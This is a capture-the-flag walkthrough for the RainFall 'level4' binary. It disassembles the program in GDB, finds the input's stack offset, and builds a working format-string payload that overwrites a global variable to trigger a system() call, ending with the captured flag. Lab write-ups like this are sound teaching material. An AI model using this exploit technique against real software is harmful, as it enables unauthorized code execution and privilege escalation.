 # level4

## exploring the binary
```shell
level4@RainFall:~$ ./level4
phantom
phantom
level4@RainFall:~$ ./level4
society 42
society 42
```
Once again executable waits for standard input and then prints it out.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave
   0x080484b3 <+12>:	ret
End of assembler dump.
```
The main function calls <code>n()</code> upon execution.
```shell
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```
We see a comparison of variable <code>0x8049810</code> against <code>$0x1025544</code>.
```shell
(gdb) x/m 0x8049810
0x8049810 <m>:	Undefined output format "m".
(gdb) print 0x1025544
$1 = 16930116
```
Similarly to <code>level4</code>, there is a variable <code>m</code> which we have to modify without having any direct access to it. We check for its existence:
``` shell
All defined variables:

Non-debugging symbols:
0x08048588  _fp_hw
0x0804858c  _IO_stdin_used
0x080486f8  __FRAME_END__
0x080496fc  __CTOR_LIST__
0x080496fc  __init_array_end
0x080496fc  __init_array_start
0x08049700  __CTOR_END__
0x08049704  __DTOR_LIST__
0x08049708  __DTOR_END__
0x0804970c  __JCR_END__
0x0804970c  __JCR_LIST__
0x08049710  _DYNAMIC
0x080497dc  _GLOBAL_OFFSET_TABLE_
0x080497fc  __data_start
0x080497fc  data_start
0x08049800  __dso_handle
0x08049804  stdin@@GLIBC_2.0
0x08049808  completed.6159
0x0804980c  dtor_idx.6161
0x08049810  m
```

Function <code>n</code> also invokes another pre-made function, <code>p()</code>, prompting us to conduct an inspection.
```shell
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave
   0x08048456 <+18>:	ret
End of assembler dump.
```
We opt to execute another <code>format string</code> attack.

## format string attack
We first determine which specific stack parameter is occupied by a string passed to <code>printf</code>.
``` shell
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil)
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 10' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 15' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070
```
We found that the string <code>AAAA</code> resides in the twelfth position. With our understanding of the format string's location in the stack, our next step is to craft a string 16930116 characters in length, embedding the address of the variable (<code>0x08049810</code>) crucial for spawning the shell.

## exploit
``` shell
level4@RainFall:~$ python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d%12$n"' > /tmp/flag4
level4@RainFall:~$ cat /tmp/flag4 - | ./level4
[...]
                                       -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
